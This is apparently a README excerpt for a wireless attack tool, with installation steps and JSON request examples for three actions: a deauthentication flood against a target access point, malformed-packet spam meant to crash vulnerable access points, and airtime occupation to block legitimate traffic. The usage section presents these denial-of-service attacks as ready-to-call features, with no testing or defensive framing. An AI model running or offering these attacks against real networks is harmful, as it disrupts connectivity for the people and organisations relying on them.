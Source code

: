 ### Installation
```bash
# Install Python dependencies
pip install scapy>=2.4.0

# Platform-specific setup
# Linux
sudo apt-get install aircrack-ng

# Windows
# Download and install Npcap from https://npcap.com/

# macOS
# airport utility is included with macOS

# Android (Termux)
pkg install python scapy-python3
```

## Usage

### Basic API Usage

#### Deauthentication Attack
```typescript
// Disconnect clients from a specific AP
{
  "action": "deauth_flood",
  "interface": "wlan0",
  "target_bssid": "AA:BB:CC:DD:EE:FF",
  "channel": 6,
  "duration": 30
}
```

#### Malformed Packet Spam
```typescript
// Crash/confuse vulnerable access points
{
  "action": "malformed_spam",
  "interface": "wlan0",
  "channel": 11,
  "duration": 15
}
```

#### Airtime Occupation
```typescript
// Saturate the medium to block legitimate traffic
{
  "action": "airtime_occupation",
  "interface": "wlan0",
  "channel": 1,
  "duration": 60
}
```
